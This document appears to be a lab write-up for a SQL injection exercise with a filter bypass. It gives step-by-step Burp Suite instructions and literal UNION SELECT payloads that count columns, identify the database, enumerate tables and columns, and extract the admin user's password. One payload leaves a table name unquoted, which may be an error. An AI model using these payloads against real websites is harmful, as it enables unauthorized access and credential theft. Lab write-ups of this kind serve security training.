

**SQL injection with filter bypass via XML encoding**

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 

Solution:- 

* Navigate to the portal & turn on intercept in BurpSuite
* Now, go to any category & check it in Burpsuite's Proxy tab
* Then, Send this to repeater & turn off the intercept
* Now, we need to go step by step to check version of database
     1. Find no of columns
     2. Find datatype of the columns
     3. Version of the database
     4. Output the tables in database
     5. Get column names for the user table
     6. And, get login credentials for admin
    
* So, in order to find no of columns, add ```' ORDER BY 1--``` & increase it till we get Internal Server Error  
* Now, we know no of columns as 2, Add ```'UNION SELECT 'a', 'b'--``` to see it accepts string type or not. It does, in our case  
* Now, as we don't know the database, we need to check both Microsoft & PostGreSQL. For that, check with ```' UNION SELECT @@version, NULL--``` & ```' UNION SELECT version(), NULL--```, out of which later is giving 200 OK response.
* Now, we need to output out list of table names in DB, for that add ```UNION SELECT table_name, NULL from information_schema.tables--```
* & you'll now have table name - users_tyfcfx, we now need column names which contains username & password.
* For that, write ```'UNION SELECT column_name, NULL from information_schema.columns where table_name=users_tyfcfx--```
* Now, you'll get output with **username_xllosq** & **password_ztcdnu** as column names  
* So, we need data of these columns from table name. ```'UNION SELECT password_ztcdnu,username_xllosq from users_tyfcfx--```
* You'll get admin username & password in response. Search with __admin__ for credentials
* Now, go to target website & login with those credentials, you've solved the lab.

> NOTE :- Use encoded terms if normal text is giving Internal Server error response with CTRL+U.

